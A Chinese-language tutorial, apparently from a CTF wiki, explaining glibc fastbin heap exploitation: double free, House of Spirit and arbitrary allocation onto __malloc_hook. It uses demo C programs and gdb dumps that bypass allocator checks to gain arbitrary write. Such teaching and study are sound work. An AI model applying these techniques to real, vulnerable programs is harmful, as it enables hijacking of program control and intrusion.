 fastbin attack
==============

--------------

介绍
----

fastbin attack是一种(或多种)堆漏洞的利用方法，这种方法需要使用fastbin的特性，因此需要漏洞发生在属于fastbin的chunk中。 基于这一点我们可以知道这种利用的前提是：

-  存在堆溢出、use-after-free等能控制chunk内容的漏洞
-  漏洞发生于属于fastbin的chunk中

原理
----

fastbin attack存在的原因在于fastbin是使用单链表来维护释放的堆块的，并且由fastbin管理的chunk即使被释放其next\_chunk的pre\_inuse位也不会被置为空。 我们实际的来看一下fastbin是怎样的管理被释放的chunk的。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x30);
        chunk2=malloc(0x30);
        chunk3=malloc(0x30);
        //进行释放
        free(chunk1);
        free(chunk2);
        free(chunk3);
        return 0;
    }

释放前

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000000000  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

执行三个free进行释放后

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000602000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000602040  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

此时位于main\_arena中的fastbin链表中已经储存了指向chunk3的指针，并且chunk3、2、1构成了一个单链表

::

    Fastbins[idx=2, size=0x30,ptr=0x602080]
    ===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE) 

我们可以使用如下的图片来表示这一点 |捕获.PNG-13.8kB|

分类
----

fastbin attack是一个统称，意为所有基于fastbin的利用，如果细分可以做如下的分类：

-  fastbin double free
-  House of Spirit
-  arbitrary alloc

fastbin double free
-------------------

fastbin double
free是指一个属于fastbin的chunk可以多次被释放并多次的存在于fastbin链表中。这样导致的后果是多次分配可以从fastbin链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆(type
confused)的效果。

演示
----

fastbin double free之所以能够成功的实现有两部分的原因，一是属于fastbin的堆块被释放后next\_chunk的pre\_inuse位不会被清空，二是fastbin在执行free的时候仅验证了main\_arena直接指向的块

::

    /* Another simple check: make sure the top of the bin is not the
           record we are going to add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          {
            errstr = "double free or corruption (fasttop)";
            goto errout;
    }

下面的示例程序说明了这一点，当我们试图执行以下代码时

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk1);
        return 0;
    }

如果你执行这个程序，不出意外的话会得到如下的结果，这正是\_int\_free函数检测到了fastbin的double free。

::

    *** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
    /lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
    ./tst[0x4005a2]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
    ./tst[0x400499]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
    7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0 
    7fbb74021000-7fbb78000000 ---p 00000000 00:00 0 
    7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0 
    7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0 
    7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0 
    7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0 
    7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
    7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
    7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

如果我们在chunk1释放后，再释放chunk2，这样main\_arena就指向chunk2而不是chunk1了，此时我们再去释放chunk1就不再会被检测到。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        return 0;
    }

第一次释放\ ``free(chunk1)``\  |捕获.PNG-3kB| 第二次释放\ ``free(chunk2)``\  |捕获.PNG-3.4kB| 第三次释放\ ``free(chunk1)``\  |捕获.PNG-5.8kB|
注意因为chunk1被再次释放因此其fd值不再为0而是指向chunk2，这时如果我们可以控制chunk1的内容，便可以写入其fd指针从而实现在我们想要的任意地址分配fastbin块。
下面这个示例演示了这一点，首先跟前面一样构造main\_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用malloc返回chunk1之后修改chunk1的fd指针指向bss段上的bss\_chunk，之后我们可以看到fastbin会把堆块分配到这里。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    CHUNK bss_chunk;

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        void *chunk_a,*chunk_b;
        
        bss_chunk.size=0x21;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        
        chunk_a=malloc(0x10);
        *(long long *)chunk_a=&bss_chunk;
        malloc(0x10);
        malloc(0x10);
        chunk_b=malloc(0x10);
        printf("%p",chunk_b);
        return 0;
    }

在我的系统上chunk\_b输出的值会是0x601090，这个值位于bss段中正是我们之前设置的\ ``CHUNK bss_chunk``

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

    0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
    0x601090 <bss_chunk+16>:0x0000000000000000  0x0000000000000000
    0x6010a0:               0x0000000000000000  0x0000000000000000
    0x6010b0:               0x0000000000000000  0x0000000000000000
    0x6010c0:               0x0000000000000000  0x0000000000000000

值得注意的是我们在main函数的第一步就进行了\ ``bss_chunk.size=0x21;``\ 的操作，这是因为\_int\_malloc会对欲分配位置的size域进行验证，如果其size与当前fastbin链表应有size不符就会抛出异常。

::

    *** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
    ./tst[0x400636]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
    ./tst[0x4004e9]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
    7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0 
    7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0 
    7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0 
    7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0 
    7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0 
    7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0 
    7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
    7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
    7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

\_int\_malloc中的校验如下

::

    if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
        {
          errstr = "malloc(): memory corruption (fast)";
        errout:
          malloc_printerr (check_action, errstr, chunk2mem (victim));
          return NULL;
    }

小总结
------

通过fastbin double free我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。
如果是更进一步的修改fd指针，则能够实现任意地址分配堆块的效果(首先要通过验证)，这就相当于任意地址写任意值的效果。

House of Spirit
---------------

House of Spirit是House of XX的一种,House of XX是2004年左右发出来的一篇关于Linux堆利用的技术文章中提出一系列利用方法。
对HOS的描述是可以使得fastbin堆块分配到栈中，从而实现控制栈中的一些关键数据，比如返回地址等。

如果你已经理解了前文所讲的fastbin double free，那么相信你理解HOS就已经不成问题了，其实它们的本质都在于 fastbin 链表是使用当前chunk的fd指针指向下一个chunk构成的。
HOS的核心同样在于劫持fastbin链表中chunk的fd指针，把fd指针指向我们想要分配的栈上，实现控制栈中数据。

演示
----

这次我们把fake\_chunk置于栈中称为stack\_chunk，同时劫持了fastbin链表中chunk的fd值，通过把这个fd值指向stack\_chunk就可以实现在栈中分配fastbin chunk。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    int main(void)
    {
        CHUNK stack_chunk;
        
        void *chunk1;
        void *chunk_a;
        
        stack_chunk.size=0x21;
        chunk1=malloc(0x10);
        
        free(chunk1);
        
        *(long long *)chunk1=&stack_chunk;
        malloc(0x10);
        chunk_a=malloc(0x10);
        return 0;
    }

通过gdb调试可以看到我们首先把chunk1的fd指针指向了stack\_chunk

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
    0x602010:   0x00007fffffffde60  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk

之后第一次malloc使得fastbin链表指向了stack\_chunk，这意味着下一次分配会使用stack\_chunk的内存进行

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000000000000 <=== unsorted bin
    0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  

最终第二次malloc返回值为0x00007fffffffde70也就是stack\_chunk

::

       0x400629 <main+83>        call   0x4004c0 <malloc@plt>
     → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
       $rax   : 0x00007fffffffde70
       
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

小总结
------

通过HOS我们可以把fastbin chunk分配到栈中，从而控制返回地址等关键数据。 要实现这一点我们需要劫持fastbin中chunk的fd域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

arbitrary alloc
---------------

arbitrary alloc其实与House of Spirit是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的size域，我们可以把chunk分配到任意的可写内存中，比如bss、heap、data、stack等等。

演示
----

有些同学可能会认为HOS与arbitrary alloc没有什么区别因此没有必要分为两类，这里我们使用如下的这个例子来说明这种利用手法与HOS的意义是不同的。
这个例子是使用字节错位来实现直接分配fastbin到\_\_malloc\_hook的位置，相当于直接写入\_\_malloc\_hook来控制程序流程。

::

    int main(void)
    {
        
        
        void *chunk1;
        void *chunk_a;
        
        chunk1=malloc(0x60);
        
        free(chunk1);
        
        *(long long *)chunk1=0x7ffff7dd1b05;
        malloc(0x60);
        chunk_a=malloc(0x60);
        return 0;
    }

这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况

::

    0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0

0x7ffff7dd1b10是我们想要控制的\_\_malloc\_hook的内容，于是我们向上寻找是否可以错位出一个合法的size域。因为我们是在64位系统下进行的调试，因此fastbin的范围为32字节到128字节(0x20-0x80),如下：

::

    //这里的size指用户区域，因此要小2倍字长
    Fastbins[idx=0, size=0x10] 
    Fastbins[idx=1, size=0x20] 
    Fastbins[idx=2, size=0x30] 
    Fastbins[idx=3, size=0x40] 
    Fastbins[idx=4, size=0x50] 
    Fastbins[idx=5, size=0x60] 
    Fastbins[idx=6, size=0x70] 

通过观察发现0x7ffff7dd1af5处可以现实错位构造出一个0x000000000000007f

::

    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0

    0x7ffff7dd1af5 <_IO_wide_data_0+309>:   0x000000000000007f

因为0x7f是属于0x70的，而其大小又包含了0x10的chunk\_header因此我们选择分配0x60的fastbin，将其加入链表。
最后经过两次分配可以观察到chunk被分配到0x00007ffff7dd1b15，因此我们就可以直接控制\_\_malloc\_hook的内容。

::

    0x4005a8 <main+66>        call   0x400450 <malloc@plt>
     →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax
     
     $rax   : 0x00007ffff7dd1b15 
     
    0x7ffff7dd1b05 <__memalign_hook+5>: 0xfff7a92a0000007f  0x000000000000007f
    0x7ffff7dd1b15 <__malloc_hook+5>:   0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b25 <main_arena+5>:  0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b35 <main_arena+21>: 0x0000000000000000  0x0000000000000000

小总结
------

虽然arbitrary alloc与HOS的原理是相同的，但是arbitrary alloc在CTF中要比HOS更常出现也更加使用。
我们可以利用字节错位等方法来绕过size域的检验，实现任意地址分配chunk，最后的效果也就相当于任意地址写任意值。

.. |捕获.PNG-13.8kB| image:: http://static.zybuluo.com/vbty/e8k7kq9w9a0fzm0qxfpzwpw5/%E6%8D%95%E8%8E%B7.PNG
.. |捕获.PNG-3kB| image:: http://static.zybuluo.com/vbty/48ue5xatzz40sif5qnqu8syz/%E6%8D%95%E8%8E%B7.PNG
.. |捕获.PNG-3.4kB| image:: http://static.zybuluo.com/vbty/0101jwbohr0r8sjha5yvxuu6/%E6%8D%95%E8%8E%B7.PNG
.. |捕获.PNG-5.8kB| image:: http://static.zybuluo.com/vbty/ggyvxt73jujf9qlcnm429khb/%E6%8D%95%E8%8E%B7.PNG
